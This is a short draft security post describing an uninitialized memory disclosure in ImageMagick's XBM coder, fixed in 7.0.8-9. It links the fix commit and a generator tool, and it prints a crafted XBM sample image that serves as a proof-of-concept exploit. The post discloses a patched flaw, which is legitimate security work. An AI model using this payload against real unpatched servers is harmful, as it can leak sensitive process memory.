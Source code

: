 ```yaml
---
title: "Data Processing Libraries. Part I"
date: 2020-02-24T10:51:03+01:00
draft: true
---
```


# ImageMagick memory leak at XBM coder

ReadXBMImage in coders/xbm.c in ImageMagick before 7.0.8-9 (https://github.com/ImageMagick/ImageMagick/commit/216d117f05bff87b9dc4db55a1b1fadb38bcb786) leaves data uninitialized when processing an XBM file that has a negative pixel value. 
If the affected code is used as a library loaded into a process that includes sensitive information, that information sometimes can be leaked via the image data. 
Exploit for ImageMagick's uninitialized memory disclosure in xbm coder.  
Auto-generation tool is [xbmdump](https://github.com/d0ge/xbmdump)

### Sample image

```
#define -_width 16
#define -_height 16
static char -_bits[] = {
  0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, };
```

### Severity: Medium - High
Severity level depends on the web server environment.
